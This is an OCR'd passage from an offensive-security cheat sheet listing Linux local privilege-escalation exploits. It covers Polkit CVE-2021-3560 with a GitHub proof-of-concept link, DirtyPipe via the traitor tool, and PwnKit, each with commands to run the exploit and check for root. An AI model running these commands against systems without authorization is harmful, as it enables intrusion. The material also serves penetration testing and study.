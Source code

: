 Methods:

1\.

https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation

2\.

poc.sh

<a name="dirtypipe"></a>
# DirtyPipe

Domain: No

Local Admin: Yes

OS: Linux

Type: 0/1 Exploit

Methods:

1\.

./traitor-amd64 \--exploit kernel:CVE-2022-0847

2\.

Whoami;id

<a name="pwnkit"></a>
# PwnKit

Domain: No

Local Admin: Yes

OS: Linux

Type: 0/1 Exploit

Methods:

1\.

./cve-2021-4034

2\.

Whoami;id

<a name="ms14_058"></a>
# ms14_058

Domain: No

Local Admin: Yes

